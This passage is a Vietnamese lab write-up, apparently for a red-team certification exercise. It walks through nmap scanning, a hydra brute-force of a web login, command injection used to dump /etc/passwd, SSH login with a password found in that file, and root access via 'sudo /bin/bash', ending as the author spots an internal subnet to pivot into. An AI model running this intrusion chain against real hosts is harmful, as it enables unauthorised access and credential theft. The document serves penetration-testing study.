 Ta không có IP target sẵn như HTB, THM hay các CTF khác. Nên ta cần quét trước:
```Bash
nmap -sN 192.168.80.0/24
```
Ta đã xác định được một IP thuộc dãy External IP
```Bash
Nmap scan report for 192.168.80.1
Host is up (0.26s latency).
All 1000 scanned ports on 192.168.80.1 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap scan report for 192.168.80.10
Host is up (0.37s latency).
All 1000 scanned ports on 192.168.80.10 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap done: 256 IP addresses (2 hosts up) scanned in 444.92 seconds
```
Ok, ta tìm được 2 IP thuộc dãy này. 192.168.80.1 chỉ mở ra trang của pfsense. Quét tiếp vào IP 192.168.80.10:
```Bash
nmap -p- -Pn $target -v -T5 --min-rate 1500 --max-rtt-timeout 500ms --max-retries 3 --open -A
```
```Bash
Discovered open port 22/tcp on 192.168.80.10
Discovered open port 80/tcp on 192.168.80.10
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Có vẻ như chỉ có http và ssh. Ta thử truy cập vào web của dãy này:
![[CRTA_img1.png]]
Hmm, có vẻ ta cần kiểm tra source trước.
Nothing. Brute-forcing
```Bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $target http-post-form "/index.php:id=^USER^&password=^PASS^&remember=on:S=logout.php" -t 30 -V
```
Not working. Xin lỗi vì phải xem qua wu một chút =((
Có vẻ ta cần tận dụng chức năng đăng ký và đăng nhập của website.
Ta sẽ đăng ký một cred đơn giản là 123:123 ; ta sẽ truy cập được dashboard:
![[CRTA_img2.png]]
Có vẻ có một vài chức năng liên quan đến search, tôi nghĩ tôi sẽ tìm xem có bất kỳ lỗi SQL nào hay không, hoặc có thể là command injection.
Oke, ta có thể tìm email qua this one:
![[Pasted image 20250903195402.png]]
Một điều thú vị là nếu ta dùng Burp Suite hoặc CAIDO để xem respond website thì:
![[Pasted image 20250903195509.png]]
![[Pasted image 20250903201205.png]]
Gửi nó đến repeater và thử với lệnh "ls". Ta thấy respond trả về một danh sách các file. Thử truy cập chúng nào.
Có vẻ không có gì, thử dump vào /etc/passwd?![[Pasted image 20250903201451.png]]
Oh shiet, ta có thể tìm được privsec:
```Bash
privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
```
Thử truy cập ssh nhỉ:
```Bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh privilege@$target 
The authenticity of host '192.168.80.10 (192.168.80.10)' can't be established.
ED25519 key fingerprint is SHA256:RHpGTqvkXkAP6/HA3vpHP8gkrtApbfyYYjteCh3N/TE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.80.10' (ED25519) to the list of known hosts.
privilege@192.168.80.10's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-67-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

273 updates can be applied immediately.
273 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Wed Sep  3 18:02:08 2025 from 10.10.200.80
privilege@ubuntu-virtual-machine:~$
```
Nice. Check sơ qua thì có một thứ rất đặc biệt:
```Bash
sudo -l
```
Ta có quyền của sudo, nên chỉ cần khai thác vào:
```Bash
privilege@ubuntu-virtual-machine:~$ sudo /bin/bash
root@ubuntu-virtual-machine:/home/privilege#
```
Lên được root rồi, hè hè. Check vài thứ nữa đi:
```Bash
ip a
```
```Bash
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens34: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether 00:0c:29:28:1b:7e brd ff:ff:ff:ff:ff:ff
    altname enp2s2
    inet 192.168.98.15/24 brd 192.168.98.255 scope global noprefixroute ens34
       valid_lft forever preferred_lft forever
3: ens32: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:96:17:f9 brd ff:ff:ff:ff:ff:ff
    altname enp2s0
    inet 192.168.80.10/24 brd 192.168.80.255 scope global noprefixroute ens32
       valid_lft forever preferred_lft forever
```
Để ý dòng này:
```Bash
2: ens34: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether 00:0c:29:28:1b:7e brd ff:ff:ff:ff:ff:ff
    altname enp2s2
    inet ==192.168.98.15/24== brd 192.168.98.255 scope global noprefixroute ens34
```
Có vẻ máy linux này đang được connect vào 192.168.98.15/24. Oke, có vẻ ta sẽ tận dụng từ đây.

